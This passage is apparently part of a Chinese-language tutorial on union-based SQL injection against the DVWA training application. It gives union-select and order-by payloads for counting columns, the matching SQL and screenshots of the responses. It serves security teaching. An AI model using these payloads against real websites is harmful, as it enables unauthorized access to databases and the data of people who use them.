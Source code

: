 ### 3、基于union注入

UNION语句用于联合前面的SELECT查询语句，合并查询更多信息； 一般通过错误和布尔注入确认注入点之后，便开始通过union语句来获取有效信息

```sql
// 猜测数据列数 有多少个字段
' union select 1 -- ' ' union select 1,2 -- aaaa
' union select 1,2,3 -- ' ' union select 1,2,3,4 -- aaaa

// order by猜测数据列数
1' order by 1#
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1;
这条语句的意思是查询users表中user_id为1的数据并按第一字段排行。

SQL注入语句解析： 
mysql> select first_name,last_name from dvwa.users where user_id='' union select 1 -- aaaa 
mysql> select first_name,last_name from dvwa.users where user_id='' union select 1,2 -- aaaa

注意：使用union联合查询，所查询的字段数必须与前面查询的字段数保持一致。
1234567891011121314
```

输入 `1' order by 1 -- aaa`和 `1' order by 2 -- aaa`时都返回正常：
![在这里插入图片描述](72、sql注入/20200803153202521.png)
输入 `1' order by 3 -- aaa`返回错误：
![在这里插入图片描述](72、sql注入/20200803153238343.png)
由此可知，users表中只有两个字段，数据为两列。
![在这里插入图片描述](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201112153150775.png)
